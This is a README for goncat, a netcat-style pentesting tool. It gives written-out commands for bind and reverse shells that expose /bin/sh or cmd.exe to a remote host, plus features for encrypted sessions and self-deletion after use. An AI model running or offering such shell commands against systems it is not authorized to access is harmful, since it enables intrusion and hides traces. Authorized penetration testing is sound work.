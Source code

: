 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it can create log files of your sessions so you can later see and show exactly what you did.
Third, it has cross-platform PTY support for your convenience.
Finally, it can clean up after itself so you don't leave your binaries behind when you are done.

## Install

You can run `go install github.com/dominicbreuker/goncat` to install goncat to the `bin` folder in your GOPATH, usually `~/go/bin`.
Alternatively, download the pre-built binary for your system and architecture.
Download will be made available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
There is only one binary combining all features and it works cross-platform.
For example, you can do the following things:
- Raw data transfers: `goncat listen --port 12345` to listen on port 12345,
  then from somewhere else `goncat connect --host 11.22.33.44 --port 12345` to connect. 
  Whatever you type on one end of the connection will be sent to the other.
- Bind/reverse shells: `goncat listen --exec /bin/sh --port 12345` to expose a shell on port 12345,
  then on the other side `goncat connect --host 11.22.33.44 --port 12345`
- Shells with encryption, PTY support and logging: `goncat listen --port 12345 --ssl --key secret --pty --log /tmp/session.log` to start a listener on port 12345,
  which logs the session to a file.
  Then on the remote side run `goncat.exe connect --host 11.22.33.44 --port 12345 --exec cmd.exe --ssl --key secret --pty`
  to get a fully interactive reverse shell, encrypted and authenticated with your password `secret`.

## Features

goncat provides two commands.
With `goncat listen` you launch a server that listens on a `--port` and optionally on a specific IP
specified with `--host` (default is any).
`goncat connect` launches a client which connects to a `--host` and `--port`.
By default goncat attaches to your stdin and stdout but you can pass `--exec` on either side
to launch an executable and attach to that.
Think of all this as the same you would usually do with `nc`, `ncat` and the like.

In addition to these basic features, there is:
- Encryption: you can add `--ssl` on both ends to ensure all traffic is encrypted.
- Authentication: on top of `--ssl` you can add `--key mypassword` on both ends.
  This way they both generate RSA keys derived from the shared password used for mutual TLS authentication.
- Logging: use `--log` to make goncat log all traffic sent over the wire to a local log file.
  For example, you can use that to document everything you did through a reverse shell.
- PTY support: add `--pty` on both ends to enable pseudoterminal support.
  Only makes sense if you expose shells with `--exec`.
  Works on Linux, Windows and MacOS.
  goncat handles all the details automatically, so there is no need for `stty raw -echo` or row and column size adjustments.
  It also restores your terminal when the connection terminates.
- Cleanup: you can pass `--cleanup` to make goncat delete itself on process termination.
  This works well on UNIX systems but Windows is tricky.
  Currently goncat launches a cmd-based cleanup job that runs 5 seconds after it terminated
  and marks the file for deletion on the next reboot just in case that job fails.
